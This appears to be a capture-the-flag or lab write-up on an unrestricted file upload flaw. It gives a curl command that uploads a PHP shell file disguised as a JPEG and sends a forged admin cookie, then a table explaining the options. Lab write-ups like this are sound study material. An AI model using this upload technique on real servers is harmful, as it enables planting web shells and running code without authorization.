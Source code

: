 ```
http://{IP_ADDRESS}/index.php?page=upload
```


## 🎯 Vulnerability: Unrestricted File Upload

This vulnerability occurs when a web application allows users to upload files without properly validating their type or content. In this case, the server only checks the file extension or the `Content-Type` header, allowing us to upload a file that looks like an image but actually contains PHP code.

### 🛠 What We Did

We used the following `curl` command to upload a malicious PHP file while pretending it is an image:

```bash
curl -X POST http://{IP_ADDRESS}/?page=upload \
  -H "Cookie: I_am_admin=68934a3e9455fa72420237eb05902327" \
  -F "uploaded=@shell.php;type=image/jpeg" \
  -F "Upload=Upload"
```

### Option	Description
```
-X  POST	Sends a POST request, which is typically used for form submissions.
-H	Adds a custom HTTP header. We use it to send an admin cookie (I_am_admin) to bypass access restrictions.
-F	Sends form data as multipart/form-data. We attach the file and spoof the MIME type as image/jpeg.
    Upload=Upload	Mimics the submit button name; required by some forms to process the upload.
```

There is no need to add cookies or shell code for this scenario.